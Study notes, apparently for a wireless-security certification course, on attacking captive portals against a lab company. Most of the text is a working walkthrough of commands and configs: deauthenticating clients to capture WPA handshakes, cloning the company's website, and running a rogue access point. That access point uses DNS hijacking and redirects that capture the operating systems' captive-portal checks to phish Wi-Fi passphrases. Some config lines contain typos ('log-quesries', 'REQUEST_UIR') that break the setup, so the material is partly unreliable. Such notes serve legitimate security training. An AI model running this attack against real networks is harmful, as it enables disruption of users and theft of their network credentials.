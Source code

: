 # Offensive Security Wireless Professional (OSWP)

## Video 1/10

### Attacking Captive Portal

<details>
<summary>How do browsers detect existance of a captive portal?</summary>

> **Description**
>
> Browsers try to resolve a set of URIs and expect a recieve from server in the
> form of HTTP 204 or 200 responses.
>
> Detecting existance of a captive portal and internet connectivity are two
> different things.
>
> ---
> **Resources**
> - Offensive Security Wireless Professional - Attacking Captive Portal
> ---
</details>

<details>
<summary>What is a target AP?</summary>

> **Description**
>
> The target access point, also the collection of its information like channel,
> clients and etc.
>
> ---
> **Resources**
> - Offensive Security Wireless Professional - Attacking Captive Portal
> ---
</details>

<details>
<summary>What are the requirements of attacking a captive portal?</summary>

> **Description**
>
> On WPA-PSK or WPA2-PSK networks we should capture a handshake.
>
> Then we would need to copy the captive portal or when non exists, create a
> convincing one.
>
> ---
> **Resources**
> - Offensive Security Wireless Professional - Attacking Captive Portal
> ---
</details>

<details>
<summary>Capture a handshake from an access point?</summary>

> **Description**
>
> Stop network interfaces:
> ```sh
> sudo airmon-ng check kill
> ``````
>
> Switch wireless interface to monitor mode:
> ```sh
> sudo airmon-ng start wlan0
> ``````
>
> Use monitor mode to capture information about clients and access points:
> ```sh
> sudo airodump-ng wlan0mon
> ``````
>
> Capture handshake from one of clients:
> ```sh
> sudo airodump-ng -w discovery --output-format pcap -c 11 wlan0mon
> ``````
>
> Force a client to reconnect to the access pointer:
> ```sh
> sudo aireplay-ng -0 0 -a <AP:BSSID> wlan0mon
> ``````
>
> Disable monitor mode:
> ```sh
> sudo airmon-ng stop wlan0mon
> ``````
>
> ---
> **Resources**
> - Offensive Security Wireless Professional - Attacking Captive Portal
> ---
</details>

<details>
<summary>Create a captive portal?</summary>

> **Description**
>
> For this scenario we need PHP and Apache server.
>
> Download website content of the target corporation behind captive portal:
> ```sh
> wget -r -l2 https://megacorpone.com
> ``````
>
> Setup http server and index file:
> ```sh
> sudo mkdir /var/www/html/portal
> sudo cp -r ./www.megacorpone.com/assets/ /var/www/html/portal/
> sudo cp -r ./www.megacorpone.com/old-site/ /var/www/html/portal/
> ``````
>
> Create index file:
> ```sh
> sudoedit /var/www/html/portal/index.php
> ``````
>
> Create login check script to verify client given password works:
> ```sh
> sudoedit /var/www/html/portal/login_check.php
> ``````
>
> Create an interface for fake captive portal:
> ```sh
> sudo ip addr add 192.168.87.1/24 dev wlan0
> sudo ip link set wlan0 up
> ``````
>
> Use dnsmasq to setup DHCP server:
> ```sh
> vim mco-dnsmasq.conf
>
> domain-needed
> bogus-priv
> no-resolv
> filterwin2k
> expand-hosts
> domain=localdomain
> local=/localdomain/
>
> listen-address=192.168.87.1
>
> dhcp-range=192.168.87.100,192.168.87.199,12h
> dhcp-lease-max=100
>
> log-quesries
> address=/com/192.168.87.1
> address=/org/192.168.87.1
> address=/net/192.168.87.1
> # Entries for windows 7 and 10 captive portal detection
> address=/dns.msftncsi.com/131.103.255.255
> ``````
>
> Start DHCP service:
> ```sh
> sudo dnsmasq --conf-file=mco-dnsmasq.conf
> ``````
>
> Confirm services are running:
> ```sh
> sudo ss -antlp
> ``````
>
> Sometimes clients ignore settings setup in DHCP lease, we can reroute these
> requests by netfilter:
> ```sh
> sudo nft add table ip nat
> sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
> sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53
> ``````
>
> Configure Apache to accept mode rewrite and alias rules:
> ```sh
> sudoedit /etc/apache2/sites-enabled/000-default.conf
>
> # Apple
> RewriteEngine on
> RewriteCond %{HTTP_USER_AGENT} ^CaptiveNetworkSupport(.*)$ [NC]
> RewriteCond %{HTTP_HOST} !^192.168.87.1$
> RewriteRule ^(.*)$ http://192.168.87.1/portal/index.php [L,R=302]
>
> # Android
> RedirectMatch 302 /generate_204 http://192.168.87.1/portal/index.php
>
> # Windows 7 and 10
> RedirectMatch 302 /ncsi.txt http://192.168.87.1/portal/index.php
> RedirectMatch 302 /connecttest.txt http://192.168.87.1/portal/index.php
>
> # Catch-all rule to redirect other possible attempts
> RewriteCond %{REQUEST_UIR} !^/portal/ [NC]
> RewriteRule ^(.*)$ http://192.168.87.1/portal/index.php [L]
> ``````
>
> Use Apache modules to make rewrite and redirects work:
> ```sh
> sudo a2enmod rewrite
> sudo a2enmod alias
> ``````
>
> Restart Apache:
> ```sh
> sudo systemctl restart apache2
> ``````
>
> Confirm that captive portal works:
> ```sh
> firefox http://192.168.87.1/portal/index.php
> ``````
>
> Configure hostapd:
> ```sh
> vim mco-hostapd.conf
>
> interface=wlan0
> ssid=MegaCorp One Lab
> channel=11
> hw_mode=g
> ieee80211n=1
> ``````
>
> Run hostapd to create captive portal:
> ```sh
> sudo hostapd -B mco-hostapd.conf
> ``````
>
> Capture passphrases using your captive portal.
>
> ---
> **Resources**
> - Offensive Security Wireless Professional - Attacking Captive Portal
> ---
</details>

